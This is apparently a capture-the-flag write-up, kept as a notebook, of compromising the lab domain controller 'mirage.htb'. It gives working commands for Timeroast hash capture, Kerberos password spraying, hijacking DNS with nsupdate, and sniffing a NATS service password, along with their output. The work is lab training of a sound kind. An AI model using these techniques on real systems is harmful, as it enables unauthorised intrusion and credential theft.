



# week10-mirage

## Engagement Notes

This challenge started off with some reports in an NFS share that hinted at a message queing system. Hijacking its DNS entries and listening for traffic revealed the first user to start privilege escalation. The final steps involved an ESC10 attack to generate a ticket for the DC to secretsdump credentials getting Administrator.

# Enumeration

### Set variables and baseline functions for further engagement


```python
from utils import * # Use `widget.summary()` to get all the premade code blocks

source =! ip address | grep tun | grep 10 | tr "/" " " | awk '{print $2}'
public_source = requests.get('https://ifconfig.co/ip').text
target = 'mirage.htb'

print(f"source: {source}")
print(f"target: {target}")
```

    source: ['10.10.14.81']
    target: mirage.htb


### Port scan target


```python
!rustscan -a $target
```

    .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
    | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
    | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
    `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
    The Modern Day Port Scanner.
    ________________________________________
    : http://discord.skerritt.blog         :
    : https://github.com/RustScan/RustScan :
     --------------------------------------
    RustScan: Where scanning meets swagging. 😎
    
    [~] The config file is expected to be at "/home/tokugero/.rustscan.toml"
    [~] File limit higher than batch size. Can increase speed by increasing batch size '-b 524188'.
    Open 10.129.203.72:53
    Open 10.129.203.72:88
    Open 10.129.203.72:111
    Open 10.129.203.72:135
    Open 10.129.203.72:139
    Open 10.129.203.72:389
    Open 10.129.203.72:445
    Open 10.129.203.72:464
    Open 10.129.203.72:593
    Open 10.129.203.72:636
    Open 10.129.203.72:2049
    Open 10.129.203.72:3268
    Open 10.129.203.72:9389
    Open 10.129.203.72:4222
    Open 10.129.203.72:5985
    Open 10.129.203.72:49664
    Open 10.129.203.72:49665
    Open 10.129.203.72:49667
    Open 10.129.203.72:49668
    Open 10.129.203.72:49666
    Open 10.129.203.72:47001
    Open 10.129.203.72:54641
    Open 10.129.203.72:54662
    Open 10.129.203.72:54677
    Open 10.129.203.72:59631
    Open 10.129.203.72:59616
    Open 10.129.203.72:59614
    Open 10.129.203.72:59615
    [~] Starting Script(s)
    [~] Starting Nmap 7.97 ( https://nmap.org ) at 2025-07-19 12:02 -0700
    Initiating Ping Scan at 12:02
    Scanning 10.129.203.72 [2 ports]
    Completed Ping Scan at 12:02, 0.10s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 12:02
    Completed Parallel DNS resolution of 1 host. at 12:02, 2.50s elapsed
    DNS resolution of 1 IPs took 2.50s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
    Initiating Connect Scan at 12:02
    Scanning 10.129.203.72 [28 ports]
    Discovered open port 445/tcp on 10.129.203.72
    Discovered open port 111/tcp on 10.129.203.72
    Discovered open port 135/tcp on 10.129.203.72
    Discovered open port 53/tcp on 10.129.203.72
    Discovered open port 139/tcp on 10.129.203.72
    Discovered open port 593/tcp on 10.129.203.72
    Discovered open port 54641/tcp on 10.129.203.72
    Discovered open port 464/tcp on 10.129.203.72
    Discovered open port 49665/tcp on 10.129.203.72
    Discovered open port 59616/tcp on 10.129.203.72
    Discovered open port 54677/tcp on 10.129.203.72
    Discovered open port 2049/tcp on 10.129.203.72
    Discovered open port 49664/tcp on 10.129.203.72
    Discovered open port 54662/tcp on 10.129.203.72
    Discovered open port 47001/tcp on 10.129.203.72
    Discovered open port 88/tcp on 10.129.203.72
    Discovered open port 59615/tcp on 10.129.203.72
    Discovered open port 389/tcp on 10.129.203.72
    Discovered open port 49667/tcp on 10.129.203.72
    Discovered open port 49666/tcp on 10.129.203.72
    Discovered open port 59614/tcp on 10.129.203.72
    Discovered open port 3268/tcp on 10.129.203.72
    Discovered open port 636/tcp on 10.129.203.72
    Discovered open port 49668/tcp on 10.129.203.72
    Discovered open port 9389/tcp on 10.129.203.72
    Discovered open port 5985/tcp on 10.129.203.72
    Discovered open port 4222/tcp on 10.129.203.72
    Discovered open port 59631/tcp on 10.129.203.72
    Completed Connect Scan at 12:02, 1.34s elapsed (28 total ports)
    Nmap scan report for 10.129.203.72
    Host is up, received conn-refused (0.11s latency).
    Scanned at 2025-07-19 12:02:50 PDT for 1s
    
    PORT      STATE SERVICE        REASON
    53/tcp    open  domain         syn-ack
    88/tcp    open  kerberos-sec   syn-ack
    111/tcp   open  rpcbind        syn-ack
    135/tcp   open  msrpc          syn-ack
    139/tcp   open  netbios-ssn    syn-ack
    389/tcp   open  ldap           syn-ack
    445/tcp   open  microsoft-ds   syn-ack
    464/tcp   open  kpasswd5       syn-ack
    593/tcp   open  http-rpc-epmap syn-ack
    636/tcp   open  ldapssl        syn-ack
    2049/tcp  open  nfs            syn-ack
    3268/tcp  open  globalcatLDAP  syn-ack
    4222/tcp  open  vrml-multi-use syn-ack
    5985/tcp  open  wsman          syn-ack
    9389/tcp  open  adws           syn-ack
    47001/tcp open  winrm          syn-ack
    49664/tcp open  unknown        syn-ack
    49665/tcp open  unknown        syn-ack
    49666/tcp open  unknown        syn-ack
    49667/tcp open  unknown        syn-ack
    49668/tcp open  unknown        syn-ack
    54641/tcp open  unknown        syn-ack
    54662/tcp open  unknown        syn-ack
    54677/tcp open  unknown        syn-ack
    59614/tcp open  unknown        syn-ack
    59615/tcp open  unknown        syn-ack
    59616/tcp open  unknown        syn-ack
    59631/tcp open  unknown        syn-ack
    
    Read data files from: /nix/store/wgw89vb58b7xdp5zk2r9fqy2qq3xxdd6-nmap-7.97/bin/../share/nmap
    Nmap done: 1 IP address (1 host up) scanned in 3.97 seconds
    


We have an odd port here, 4222; let's look into this more.


```python
!nc $target 4222
```

    INFO {"server_id":"NAHAKOF3DBHL26L2CR72ZNWV4PE7SFUX32UFRVKC4Z4QQJL7XLQCOGQG","server_name":"NAHAKOF3DBHL26L2CR72ZNWV4PE7SFUX32UFRVKC4Z4QQJL7XLQCOGQG","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":12,"client_ip":"10.10.14.81","xkey":"XBJLBH46JAJV3FHKWAZJI53BJQP7CUERL76BQNAMQ2BJIWUDAOTBZXSE"} 
    -ERR 'Authentication Timeout'
    ^C


Looks like a go app of version 2.11.3. It's unclear what service this is exactly, but we'll keep an eye on it as we continue our enumeration.

We also have a more common port, 2049: NFS.


```python
!showmount -e $target
```

    Export list for mirage.htb:
    /MirageReports (everyone)


```sh
 mkdir mirage
 sudo mount -t nfs -o mountvers=3 mirage.htb:/MirageReports mirage/
 ls mirage
Incident_Report_Missing_DNS_Record_nats-svc.pdf
Mirage_Authentication_Hardening_Report.pdf
```

These documents have a lot of information from which we can get context on our environment.

Mirage_Authentication_Hardening_Report.pdf
```
To align with current security best practices, Mirage is moving toward a Kerberos-only
authentication model. The transition is designed to be gradual and well-monitored to avoid
service disruption and ensure all systems are compliant.
Timeline of Events:
April 2025 : Project kickoff: NTLM usage review initiated
May 2025 : Auditing enabled for all incoming NTLM authentication.
May 2025: Inbound NTLM blocked on pilot systems (non-critical servers)
June 2025 : Audit reports analyzed; system owners notified of NTLM usage.
July 2025 : Migration plans created for systems requiring NTLM
Aug 2025 : Begin Kerberos-only enforcement in selected Test OUs
Q4 2025 Target : Full domain-wide NTLM disablement
...
Active Directory Security Team
IT Security Department – Mirage.htb
Contact: ad-security@mirage.htb
```

Incident_Report_Missing_DNS_Record_nats-svc.pdf
```
Summary
On May 3, 2025, the Development team reported they were unable to resolve the hostname
nats-svc.mirage.htb. This hostname is critical for internal service communication with the
NATS messaging system hosted on the Mirage domain.
Timeline of Events:
May 3, 2025: The nats-svc server becomes unreachable within the internal network.
May 4, 2025: The Development team reports a failure to connect to the NATS service
via DNS.
May 5, 2025: An initial investigation confirms the DNS record for nats-svc is missing
from the mirage.htb zone.
```

```
In development environments, fixed service names such as nats-svc.mirage.htb
are often hardcoded in applications. If the DNS record is missing, some apps
may still attempt to connect to that name. This behavior could be abused by
attackers if DNS records are hijacked.
The Security Team should monitor such cases closely to ensure no
unauthorized DNS responses are injected or spoofed in the network.
```

From this we learn the following:

There's a nats-service endpoint that expected to exist, which has a port like what we found earlier. There's also a missing DNS record for this service that a user Dev_Account_A is trying to access from the CLI prompt demonstrating access to the app. The CLI invocation also shows a basic auth user & password method, which might be something we can intercept.

[NATS service documentation](https://docs.nats.io/)

```sh
$ nats -s nats://nats-svc.mirage.htb:4222 rtt --user myname --password password
nats: error: nats: Authorization Violation
```

The NATS service has a whole lot of features available to it, and can get really complex it looks like. For our takeaway on this service documentation and example diagram, we know there's websocket streams, MQTT features, and kafka-like pub/sub messaging. We'll likely need to enumerate this service for interesting topics/subscriptions/streams when we do get access.



Now that we're through the custom services, we can enumerate some Windows.


```python
# --- BloodHound Docker quickstart ----
!mkdir -p ./bloodhounddumps
!docker compose --project-directory ~/.local/build/programs/bloodhound --progress quiet down
!docker compose --project-directory ~/.local/build/programs/bloodhound --progress quiet up -d
print("Connect to bloodhound at http://localhost:8080 (admin/bloodhound)")
print("For a full reset: docker compose down --volumes")

```

    Connect to bloodhound at http://localhost:8080 (admin/bloodhound)
    For a full reset: docker compose down --volumes


```python
!enum4linux-ng $target
```

    ENUM4LINUX - next generation (v1.3.4)
    
     ==========================
    |    Target Information    |
     ==========================
    [*] Target ........... mirage.htb
    [*] Username ......... ''
    [*] Random Username .. 'hxcjvczc'
    [*] Password ......... ''
    [*] Timeout .......... 5 second(s)
    
     ===================================
    |    Listener Scan on mirage.htb    |
     ===================================
    [*] Checking LDAP
    [+] LDAP is accessible on 389/tcp
    [*] Checking LDAPS
    [+] LDAPS is accessible on 636/tcp
    [*] Checking SMB
    [+] SMB is accessible on 445/tcp
    [*] Checking SMB over NetBIOS
    [+] SMB over NetBIOS is accessible on 139/tcp
    
     ==================================================
    |    Domain Information via LDAP for mirage.htb    |
     ==================================================
    [*] Trying LDAP
    [+] Appears to be root/parent DC
    [+] Long domain name is: mirage.htb
    
     =========================================================
    |    NetBIOS Names and Workgroup/Domain for mirage.htb    |
     =========================================================
    [-] Could not get NetBIOS names information via 'nmblookup': timed out
    
     =======================================
    |    SMB Dialect Check on mirage.htb    |
     =======================================
    [*] Trying on 445/tcp
    [+] Supported dialects and settings:
    Supported dialects:
      SMB 1.0: false
      SMB 2.02: true
      SMB 2.1: true
      SMB 3.0: true
      SMB 3.1.1: true
    Preferred dialect: SMB 3.0
    SMB1 only: false
    SMB signing required: true
    
     =========================================================
    |    Domain Information via SMB session for mirage.htb    |
     =========================================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [-] Could not enumerate domain information via unauthenticated SMB
    [*] Enumerating via unauthenticated SMB session on 139/tcp
    [-] SMB connection error on port 139/tcp: session failed
    
     =======================================
    |    RPC Session Check on mirage.htb    |
     =======================================
    [*] Check for null session
    [-] Could not establish null session: STATUS_NOT_SUPPORTED
    [*] Check for random user
    [-] Could not establish random user session: STATUS_NOT_SUPPORTED
    [-] Sessions failed, neither null nor user sessions were possible
    
     =============================================
    |    OS Information via RPC for mirage.htb    |
     =============================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [+] Found OS information via SMB
    [*] Enumerating via 'srvinfo'
    [-] Skipping 'srvinfo' run, not possible with provided credentials
    [+] After merging OS information we have the following result:
    OS: unknown
    OS version: not supported
    OS release: null
    OS build: null
    Native OS: not supported
    Native LAN manager: not supported
    Platform id: null
    Server type: null
    Server type string: null
    
    [!] Aborting remainder of tests since sessions failed, rerun with valid credentials
    
    Completed after 8.89 seconds


Not a good sign. Based on the earlier comments of NTLM being phased out, we can assume we'll need to leverage Kerberos for authentication. We'll just have to find a user to start with.

Looking to see if the network team ever fixed the missing DNS record, looks like not.


```python
!dig nats-svc.$target @$target
```

    
    ; <<>> DiG 9.20.9 <<>> nats-svc.mirage.htb @mirage.htb
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 63043
    ;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
    
    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4000
    ;; QUESTION SECTION:
    ;nats-svc.mirage.htb.		IN	A
    
    ;; AUTHORITY SECTION:
    mirage.htb.		3600	IN	SOA	dc01.mirage.htb. hostmaster.mirage.htb. 156 900 600 86400 3600
    
    ;; Query time: 92 msec
    ;; SERVER: 10.129.203.72#53(mirage.htb) (UDP)
    ;; WHEN: Sat Jul 19 13:53:10 PDT 2025
    ;; MSG SIZE  rcvd: 110
    


And just one wild hair to see if there's any extra machine accounts and if we can steal any passwords.


```python
!./Timeroast/timeroast.py dc01.$target | tee machines.mirage.hashes
```

    1000:$sntp-ms$1e4c36eeffcf658b1106356cd71f0706$1c0111e900000000000a17bd4c4f434cec257aef132dc60be1b8428bffbfcd0aec259a3bcf568471ec259a3bcf56d6a6
    1112:$sntp-ms$07ac4e392f91206d2e0d2b3bf78a3b97$1c0111e900000000000a17be4c4f434cec257aef116e24a0e1b8428bffbfcd0aec259a3ca18eb6e7ec259a3ca18efbb0


```python
!./Timeroast/extra-scripts/timecrack.py machines.mirage.hashes $(wordlists_path)//seclists/Passwords/xato-net-10-million-passwords-10000.txt
```

    
    0 passwords recovered.


```python
# Saving some values to see if we can password spray at all with the user accounts we've found so far.
!echo "Dev_Account_A" > spns # Leaded from dns investigation ticket
!echo "nats-svc.mirage.htb" >> spns # Guessed based on dns investigations
!echo "Dev_Account_B" >> spns # Guessed, there is no C
!echo "ad-security" >> spns

```


```python
!kerbrute -users spns -domain $target -passwords $(wordlists_path)/seclists/Passwords/xato-net-10-million-passwords-10000.txt
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => Dev_Account_A
    [*] Valid user => Dev_Account_B
    [*] Blocked/Disabled user => Dev_Account_A
    [*] Blocked/Disabled user => Dev_Account_B
    [*] No passwords were discovered :'(


```python
!GetNPUsers.py $target/ -usersfile spns -format hashcat -outputfile npusers.txt
```

    /home/tokugero/ctf/htb/season8/week10-mirage/.venv/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
      import pkg_resources
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    /home/tokugero/ctf/htb/season8/week10-mirage/.venv/bin/GetNPUsers.py:150: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
      now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
    [-] User Dev_Account_A doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] User Dev_Account_B doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)


No password sprays, no kerberoastable accounts. We'll just keep looking at low hanging unauth'd fruit while we think about that custom service.


```python
!net rpc group members 'Domain Users' -W $target -l $target -U '%'
```

    Can't load /etc/samba/smb.conf - run testparm to debug it
    [2025/07/19 16:08:53,  0] ../../lib/util/debug.c:1254(reopen_one_log)
      reopen_one_log: Unable to open new log file 'mirage.htb/log.net': No such file or directory
    Could not connect to server 127.0.0.1
    Connection failed: NT_STATUS_CONNECTION_REFUSED


```python
!rpcinfo -s $target
```

       program version(s) netid(s)                         service     owner
        100000  4,3,2     tcp6,tcp,udp,udp6                portmapper  superuser
        100003  4,3,2     udp6,tcp6,udp,tcp                nfs         superuser
        100005  3,2,1     udp6,tcp6,udp,tcp                mountd      superuser
        100021  4,3,2,1   udp6,tcp6,udp,tcp                nlockmgr    superuser
        100024  1         udp6,tcp6,udp,tcp                status      superuser


```python
!rpcinfo -p $target
```

       program vers proto   port  service
        100000    2   udp    111  portmapper
        100000    3   udp    111  portmapper
        100000    4   udp    111  portmapper
        100000    2   tcp    111  portmapper
        100000    3   tcp    111  portmapper
        100000    4   tcp    111  portmapper
        100003    2   tcp   2049  nfs
        100003    3   tcp   2049  nfs
        100003    2   udp   2049  nfs
        100003    3   udp   2049  nfs
        100003    4   tcp   2049  nfs
        100005    1   tcp   2049  mountd
        100005    2   tcp   2049  mountd
        100005    3   tcp   2049  mountd
        100005    1   udp   2049  mountd
        100005    2   udp   2049  mountd
        100005    3   udp   2049  mountd
        100021    1   tcp   2049  nlockmgr
        100021    2   tcp   2049  nlockmgr
        100021    3   tcp   2049  nlockmgr
        100021    4   tcp   2049  nlockmgr
        100021    1   udp   2049  nlockmgr
        100021    2   udp   2049  nlockmgr
        100021    3   udp   2049  nlockmgr
        100021    4   udp   2049  nlockmgr
        100024    1   tcp   2049  status
        100024    1   udp   2049  status


```python
!nxc smb $target --rid-brute 10000
```

    SMB         10.129.241.222  445    10.129.241.222   [*]  x64 (name:10.129.241.222) (domain:10.129.241.222) (signing:True) (SMBv1:False)
    SMB         10.129.241.222  445    10.129.241.222   [-] Error creating DCERPC connection: SMB SessionError: STATUS_NOT_SUPPORTED(The request is not supported.)


Some thoughts I had between the last thought and the next one:  
Setting up responder, watching for multicast dns traffic, trying to invoke other mDNS type interceptions all fail because we're over the VPN and don't have a box owned that shares an arp table. Many of these tools use MITM type arp-poisoning to intercept traffic or are listening to broadcasts that are limited to the local network. None of these are going to work for us over HTB openvpn if we can't force a service to try to auth through us directly with L3 connectivity.

Eventually I found I could directly `nsupdate` the missing nats-svc record.
 
I can arbitrarily add records to the DNS server as long as they don't already exist. In this case nats-svc.mirage.htb does not exist, so I can add it.  
Then I can set a listener on port 4222 and something connects to it.  
Then immediately after that thing connects, the DNS entry is reset.
Sometimes the DNS entry is reset before I get a connection, I think there's a race condition.

```sh
 nsupdate << EOF
server 10.129.241.222
zone mirage.htb
update add nats-svc.mirage.htb. 3600 IN A 10.10.14.81
send
EOF


$ dig nats-svc.mirage.htb @mirage.htb

; <<>> DiG 9.20.9 <<>> nats-svc.mirage.htb @mirage.htb
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 16900
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;nats-svc.mirage.htb.           IN      A

;; ANSWER SECTION:
nats-svc.mirage.htb.    3600    IN      A       10.10.14.81

;; Query time: 101 msec
;; SERVER: 10.129.241.222#53(mirage.htb) (UDP)
;; WHEN: Sun Jul 20 08:14:58 PDT 2025
;; MSG SIZE  rcvd: 64

 nc -lvnk 4222      
Listening on 0.0.0.0 4222
Connection received on 10.129.241.222 56709
Listening on 0.0.0.0 4222
```

Running a nats server locally with a nix package or docker, we can add verbosity to the output and see connections happening here as well as the user account, but the password is redacted.

```log
[362465] 2025/07/20 08:26:45.432876 [TRC] 10.129.241.222:62256 - cid:5 - <<- [CONNECT {"verbose":false,"pedantic":false,"user":"Dev_Account_A","pass":"[REDACTED]","tls_required":false,"name":"NATS CLI Version 0.2.2","lang":"go","version":"1.41.1","protocol":1,"echo":true,"headers":true,"no_responders":true}]
[362465] 2025/07/20 08:26:45.433179 [ERR] 10.129.241.222:62256 - cid:5 - authentication error
[362465] 2025/07/20 08:26:45.433196 [TRC] 10.129.241.222:62256 - cid:5 - ->> [-ERR Authorization Violation]
[362465] 2025/07/20 08:26:45.433207 [DBG] 10.129.241.222:62256 - cid:5 - Client connection closed: Authentication Failure
[362465] 2025/07/20 08:26:45.433359 [TRC] ACCOUNT - <<- [PUB $SYS.ACCOUNT.CLIENT.AUTH.ERR  763]
[362465] 2025/07/20 08:26:45.433368 [TRC] ACCOUNT - <<- MSG_PAYLOAD: ["{\"type\":\"io.nats.server.advisory.v1.client_disconnect\",\"id\":\"P3zPtMQPjAqowGVSI62BXH\",\"timestamp\":\"2025-07-20T15:26:45.433160891Z\",\"server\":{\"name\":\"NBUS7VCB55FHCDV5BT756CA26VA5N6SI6XW3T4QXHQMZN4PEL47KD2C3\",\"host\":\"0.0.0.0\",\"id\":\"NBUS7VCB55FHCDV5BT756CA26VA5N6SI6XW3T4QXHQMZN4PEL47KD2C3\",\"ver\":\"2.11.4\",\"jetstream\":false,\"flags\":0,\"seq\":8,\"time\":\"2025-07-20T15:26:45.433263908Z\"},\"client\":{\"start\":\"2025-07-20T08:26:45.331703956-07:00\",\"host\":\"10.129.241.222\",\"id\":5,\"acc\":\"$G\",\"user\":\"Dev_Account_A\",\"name\":\"NATS CLI Version 0.2.2\",\"lang\":\"go\",\"ver\":\"1.41.1\",\"rtt\":101251739,\"stop\":\"2025-07-20T15:26:45.433160891Z\",\"name_tag\":\"$G\",\"kind\":\"Client\",\"client_type\":\"nats\"},\"sent\":{\"msgs\":0,\"bytes\":0},\"received\":{\"msgs\":0,\"bytes\":0},\"reason\":\"Authentication Failure\"}"]
[362465] 2025/07/20 08:26:45.433424 [TRC] SYSTEM - <<- [PUB $SYS.SERVER.NBUS7VCB55FHCDV5BT756CA26VA5N6SI6XW3T4QXHQMZN4PEL47KD2C3.CLIENT.AUTH.ERR  763]
[362465] 2025/07/20 08:26:45.433434 [TRC] SYSTEM - <<- MSG_PAYLOAD: ["{\"type\":\"io.nats.server.advisory.v1.client_disconnect\",\"id\":\"P3zPtMQPjAqowGVSI62BZG\",\"timestamp\":\"2025-07-20T15:26:45.433235692Z\",\"server\":{\"name\":\"NBUS7VCB55FHCDV5BT756CA26VA5N6SI6XW3T4QXHQMZN4PEL47KD2C3\",\"host\":\"0.0.0.0\",\"id\":\"NBUS7VCB55FHCDV5BT756CA26VA5N6SI6XW3T4QXHQMZN4PEL47KD2C3\",\"ver\":\"2.11.4\",\"jetstream\":false,\"flags\":0,\"seq\":9,\"time\":\"2025-07-20T15:26:45.433415395Z\"},\"client\":{\"start\":\"2025-07-20T08:26:45.331703956-07:00\",\"host\":\"10.129.241.222\",\"id\":5,\"acc\":\"$G\",\"user\":\"Dev_Account_A\",\"name\":\"NATS CLI Version 0.2.2\",\"lang\":\"go\",\"ver\":\"1.41.1\",\"rtt\":101251739,\"stop\":\"2025-07-20T15:26:45.433235692Z\",\"name_tag\":\"$G\",\"kind\":\"Client\",\"client_type\":\"nats\"},\"sent\":{\"msgs\":0,\"bytes\":0},\"received\":{\"msgs\":0,\"bytes\":0},\"reason\":\"Authentication Failure\"}"]
```

Maybe we can grab the password in flight before it gets to the service with tcpdump or wireshark...

```sh
> sudo tcpdump -i tun0 -A -s 0 port 42222
...
.Q...~js..DD..P.......CONNECT {"verbose":false,"pedantic":false,"user":"Dev_Account_A","pass":"DEVNATSPASS","tls_required":false,"name":"NATS CLI Version 0.2.2","lang":"go","version":"1.41.1","protocol":1,"echo":true,"headers":true,"no_responders":true}
...
```


```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => Dev_Account_A
    [*] Valid user => Dev_Account_B
    [*] No passwords were discovered :'(


I sure was hopeful this would get me in the domain, but it's not a user password. This is likely just a password for the NATS service, so we'll start enumerating there.

The NATS client can connect with these credentials and can subscribe to the wildcard subject '>', but it only shows the connection events. The crazy thing here, is it looks like the endpoint still has some successful connections even with a broken DNS record, so I suspect the creator of the challenge has multiple connections in the scripts to do other things that need to function.
```sh
$ nats -s nats://nats-svc.mirage.htb:4222 rtt --user Dev_Account_A --password DEVNATSPASS
nats://nats-svc.mirage.htb:4222:

   nats://10.129.241.222:4222: 99.471799ms

$ nats -s nats://nats-svc.mirage.htb:4222 sub --user Dev_Account_A --password DEVNATSPASS '>'
09:00:26 Subscribing on > 
[#1] Received on "$JS.API.STREAM.INFO.auth_logs" with reply "_INBOX.j6wZjV4UCGWXa2aYzl4rL5.llRGb752"
nil body


[#2] Received on "_INBOX.j6wZjV4UCGWXa2aYzl4rL5.llRGb752"
